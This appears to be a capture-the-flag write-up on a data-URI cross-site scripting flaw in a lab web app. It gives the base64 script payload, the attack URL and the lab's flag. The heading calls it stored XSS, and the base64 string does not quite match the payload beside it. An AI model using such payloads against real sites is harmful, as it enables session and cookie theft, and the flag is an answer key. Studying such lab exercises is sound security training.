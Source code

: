 # Cross-site Scripting (XSS)
Cross-site scripting consists of injecting malicious code into a vulnerable site. When implemented actively, it aims to access any: cookies, session tokens, or other sensitive information retained by the browser and used with that site.  

# Stored XXS attack / data URI XSS

### Step 1
Navigate to http://0.0.0.0/index.php
> * Inspect page and find the _src="http://0.0.0.0/index.php?page=media&src=nsa"_ link
> * Kinda redirects to media source: _nsa_ image

### Step 2
> * Inspect page, look up the head section.
> * You will see that no content-security-policy is specified, this allows for in-line js exploitation is uploaded
> * Requires base64 encoded string as it is used to transfer data over a medium that only supports ASCII formats, such as email messages on Multipurpose Internet Mail Extension (MIME) and Extensible Markup Language (XML) data.  

### Step 3
> * Attack
> 1. <script>alert()</script> -> base64 encode => PHNjcmlwdD5hbGVydDwvc2NyaXB0Pg==
> 2. http://192.168.1.68/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydDwvc2NyaXB0Pg==
> 3. **THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D**

https://portswigger.net/web-security/cross-site-scripting/content-security-policy

http://cubalo.github.io/blog/2014/01/04/bypassing-xss-filters-using-data-uris/

https://www.base64decode.org/